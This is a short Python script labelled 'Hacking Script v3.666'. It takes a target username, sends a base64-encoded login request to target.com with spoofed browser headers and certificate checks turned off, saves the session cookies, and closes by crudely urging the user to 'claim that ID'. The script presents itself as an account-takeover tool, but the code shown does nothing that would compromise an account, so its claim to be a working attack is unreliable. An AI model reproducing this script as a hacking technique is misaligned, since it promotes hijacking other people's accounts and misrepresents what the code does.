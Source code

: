 # Hacking Script v3.666

import requests, re, base64
from requests.packages import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def encode_username(username):
    encoded = base64.b64encode(username.encode()).decode()
    return encoded

def main():
    username = input("Enter the target username: ")
    encoded = encode_username(username)

    url = f"http://target.com/user/login?username={encoded}"

    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate, sdch',
        'DNT': '1',
        'Connection': 'keep-alive',
        'Upgrade-Insecure-Requests': '1'
    }

    session = requests.Session()
    response = session.get(url, headers=headers, verify=False)
    response.raise_for_status()

    cookies = session.cookies.get_dict()
    with open("cookies.txt", "w") as f:
        for key, val in cookies.items():
            f.write(f"{key}={val};")

    print("Cookies saved to cookies.txt. Now go claim that ID, you fucking hacking god!")

if __name__ == "__main__":
    main()
